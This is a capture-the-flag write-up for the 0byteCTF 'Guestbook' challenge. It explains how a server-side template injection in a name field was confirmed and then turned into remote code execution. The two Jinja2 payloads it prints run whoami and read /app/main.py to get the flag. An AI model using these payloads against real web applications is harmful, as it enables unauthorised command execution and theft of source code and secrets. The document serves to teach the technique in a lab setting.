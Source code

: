 # Guestbook (Beta)
> You know what you do!

## About the Challenge
Given a website without the source code, where users can input desired names and the inputted names will be displayed on the website page.

![preview](images/preview.png)

In the example above, I tried inputting a name with the value "test" and the result appeared on the website.

## How to Solve?
This website is vulnerable to Server-Side Template Injection (SSTI), which can be demonstrated by inputting `{{7*7}}` in the name parameter, resulting in an output of 49.

![testing](images/testing.png)

Here, I will attempt further exploitation by performing Remote Code Execution (RCE) through leveraging SSTI. The payload I am using is:

```
{{lipsum.__globals__.os.popen('whoami').read()}}
```

![username](images/username.png)

It's apparent that the output on the website is "noob," indicating that we've successfully performed Remote Code Execution. The flag's location is within the source code of the Python application. To retrieve the flag, here's the payload I used:

```
{{lipsum.__globals__.os.popen('cat /app/main.py').read()}}
```

![flag](images/flag.png)

```
0byteCTF{Th3_M4n_wh0_Th1nks_h3_C4n_4nd_th3_M4n_wh0_Th1nks_h3_C4nt_4r3_B0th_R1ght}
```
